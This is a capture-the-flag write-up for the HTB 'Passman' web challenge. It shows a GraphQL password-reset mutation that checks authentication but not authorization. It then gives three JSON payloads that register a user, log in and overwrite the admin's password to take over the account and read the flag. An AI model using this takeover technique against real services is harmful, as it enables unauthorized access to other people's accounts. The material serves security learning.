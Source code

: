 ```yaml
---
description: >-
  Write Up For HTB Cyber Apocalypse CTF 2023 Misc challenge Passman
title: Passman
date: 2023-03-23 22:00:00 -0400
categories: [CTFs, HTB Cyber Apocalypse CTF 2023, Web Exploitation]
tags: [web-exploitation]
---
```


Pandora discovered the presence of a mole within the ministry. To proceed with caution, she must obtain the master control password for the ministry, which is stored in a password manager. Can you hack into the password manager?

----

## Overview

To begin, we first take a look at the website itself. Running the provided Docker image allows us to interact with the website. Upon accessing the website, we are greeted with a login screen. Additionally, there is a registration screen available. I make sure to take notes of these features and then proceed to inspect the source code.


The source code reveals that the application is built using Node.js, GraphQL, and SQL. By examining the `entrypoint.sh` file, which is executed when starting the Docker container, I gain insight into the underlying database structure. By looking at this file, It becomes evident that there is an password manager stores various passwords, including the flag, under the "admin" user's account.

Here's an example of the flag being stored in the password manager:

```sql
INSERT INTO passman.saved_passwords (owner, type, address, username, password, note)
VALUES
    ('admin', 'Web', 'igms.htb', 'admin', 'HTB{f4k3_fl4g_f0r_t3st1ng}', 'password'),
```

With this information, our primary objective becomes clear: we need to log in as the "admin" user.


## Identifying a Vulnerability

To find a potential vulnerability, I spend some time exploring different avenues. I consider possible vulnerabilities in the packages used, potential SQL injection, or any other low-hanging fruit. Eventually, I discover a promising vulnerability in the code responsible for updating passwords.


Within the `challenge\helpers\GraphqlHelper.js` file, we find the following code snippet:

```js
const mutationType = new GraphQLObjectType({
    name: 'Mutation',
    fields: {
        UpdatePassword: {
            type: ResponseType,
            args: {
                username: { type: new GraphQLNonNull(GraphQLString) },
                password: { type: new GraphQLNonNull(GraphQLString) }
            },
            resolve: async (root, args, request) => {
                return new Promise((resolve, reject) => {
                    if (!request.user) return reject(new GraphQLError('Authentication required!'));

                    db.updatePassword(args.username, args.password)
                        .then(() => resolve(response("Password updated successfully!")))
                        .catch(err => reject(new GraphQLError(err)));
                });
            }
        },
    },
});
```

This code confirms that users can update their passwords if they are authenticated. However, the crucial point is that it only checks for authentication and not for authorization. Consequently, any user can update the login information of any other user, provided they know the target user's username and the user is currently logged in.


## Solving the Challenge

To solve this challenge, we need to follow a specific sequence of steps:

1. Create an account:
   We make a `POST` request to `/graphql` with the following JSON payload:

```json
{
    "query": "mutation($email: String!, $username: String!, $password: String!) { RegisterUser(email: $email, username: $username, password: $password) { message } }",
    "variables": {
        "email": "a",
        "username": "a",
        "password": "a"
    }
}
```

> This creates a user account for us.


2. Log in to obtain the session cookie:
   We make another `POST` request to `/graphql` with the following JSON payload:

```json
{
    "query": "mutation($username: String!, $password: String!) { LoginUser(username: $username, password: $password) { message, token } }",
    "variables": {
        "username": "a",
        "password": "a"
    }
}
```

> By logging in, we acquire the session information in the form of a cookie.


3. Use the acquired cookie to change the admin's password:
   We make a final `POST` request to `/graphql` with the following JSON payload:

```js
{
    "query": "mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }",
    "variables": {
        "username": "admin",
        "password": "a"
    }
}
```

Utilizing the obtained cookie, we update the password of the "admin" user.


Once we have successfully gained access to the admin account, we can log in and retrieve the flag.

```
HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}
```

![Successfully Got The Flag](https://imgur.com/vAkU5xk.png)


## Conclusion

In conclusion, the "Passman" challenge required us to exploit a vulnerability that allowed unauthorized users to update passwords of any user account. By leveraging this vulnerability, we gained access to the admin account, which enabled us to retrieve the master control password and obtain the flag.